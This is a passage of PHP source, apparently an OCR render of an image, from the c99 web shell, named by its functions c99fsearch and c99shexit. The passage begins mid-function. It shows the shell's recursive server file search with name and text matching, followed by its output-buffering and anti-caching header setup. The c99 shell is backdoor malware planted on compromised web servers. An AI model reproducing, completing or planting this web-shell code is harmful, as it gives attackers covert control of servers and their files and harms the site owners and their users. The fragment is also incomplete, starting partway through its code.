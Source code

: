  global $search_i_d;
 global $a;
 if (substr($d,-1) != DIRECTORY_SEPARATOR) {$d .= DIRECTORY_SEPARATOR;}
 $h = opendir($d);
 while (($f = readdir($h)) !== FALSE)
 {
  if($f != "." && $f != "..")
  {
   $bool = (empty($a["name_regexp"]) and strpos($f,$a["name"]) !== FALSE) || ($a["name_regexp"] and ereg($a["name"],$f));
   if (is_dir($d.$f))
   {
    $search_i_d++;
    if (empty($a["text"]) and $bool) {$found[] = $d.$f; $found_d++;}
    if (!is_link($d.$f)) {c99fsearch($d.$f);}
   }
   else
   {
    $search_i_f++;
    if ($bool)
    {
     if (!empty($a["text"]))
     {
      $r = @file_get_contents($d.$f);
      if ($a["text_wwo"]) {$a["text"] = " ".trim($a["text"])." ";}
      if (!$a["text_cs"]) {$a["text"] = strtolower($a["text"]); $r = strtolower($r);}
      if ($a["text_regexp"]) {$bool = ereg($a["text"],$r);}
      else {$bool = strpos(" ".$r,$a["text"],1);}
      if ($a["text_not"]) {$bool = !$bool;}
      if ($bool) {$found[] = $d.$f; $found_f++;}
     }
     else {$found[] = $d.$f; $found_f++;}
    }
   }
  }
 }
 closedir($h);
}
}
if ($act == "gofile") {if (is_dir($f)) {$act = "ls"; $d = $f;} else {$act = "f"; $d = dirname($f); $f = basename($f);}}
//Sending headers
@ob_start();
@ob_implicit_flush(0);
function onphpshutdown()
{
 global $gzipencode,$ft;
 if (!headers_sent() and $gzipencode and !in_array($ft,array("img","download","notepad")))
 {
  $v = @ob_get_contents();
  @ob_end_clean();
  @ob_start("ob_gzHandler");
  echo $v;
  @ob_end_flush();
 }
}
function c99shexit()
{
 onphpshutdown();
 exit;
}
header("Expires: Mon, 26 Jul 1997 05:00:00 GMT");
header("Last-Modified: ".gmdate("D, d M Y H:i:s")." GMT");
header("Cache-Control: no-store, no-cache, must-revalidate");